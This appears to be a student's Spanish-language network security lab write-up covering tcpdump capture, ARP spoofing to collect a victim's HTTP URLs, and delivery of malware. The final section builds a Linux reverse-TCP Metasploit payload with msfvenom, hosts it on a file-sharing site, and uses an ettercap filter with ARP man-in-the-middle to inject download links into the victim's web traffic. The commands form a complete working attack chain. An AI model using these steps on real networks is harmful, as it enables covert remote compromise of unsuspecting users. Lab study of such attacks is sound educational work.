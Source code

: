 ```bash
rm ipv4_addresses.txt
rm ipv6_addresses.txt
```
> [!Warning]
> Esta linea de comandos está obsoleta: `ping6 -c2 -I ens33 ff02::1`

## APARTADO E
> [!Warning]
> No estoy seguro de haber hecho este apartado, pero parece ser repetido.

Obtenga el tráfico de entrada y salida legítimo de su interface de red `ens33` e investigue los servicios, conexiones y protocolos involucrados.
> `tcpdump -i ens33 -s 65535 -w my.pcap`

## APARTADO F
> [!Warning]
> No estoy seguro de haber hecho este apartado, pero parece ser repetido.

Mediante `arpspoofing` entre una máquina objeto (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.
- Utilizamos el archivo `pcap` obtenido de la máquina de nuestro compañero.

Se puede ver en *Statistics > HTTP > Requests*

## APARTADO G
Instale *Metasploit*. Haga un ejecutable que incluya Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.
1. Instalamos *Metasplot* siguiente [este tutorial](https://computingforgeeks.com/install-metasploit-framework-on-debian/).
2. Creamos payload:
> `msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.50 LPORT=4444 -f elf > payload.bin`

> :question: No entiendo que quieres decir a continuación:

3. Subimos el payload a donde sea para poder usarlo, como por ejemplo `tempfiles.org`

4. Creamos `ett.filter`:
> `nano ett.filter`
```bash
if (ip.proto == TCP && tcp.src == 80) {
	replace("a href", "a href=\"https://tmpfiles.org/dl/207895/payload.bin\">");
	msg("replaced href.\n");
}
```
5. Configuramos:
> `etterfilter ett.filter -o ig.ef`

6. Activamos el ip_forwarding
> `echo 1 > /proc/sys/net/ipv4/ip_forward`

7. Encendemos el ettercap con el filtro:
> `ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.49.55/ //10.11.48.1/`
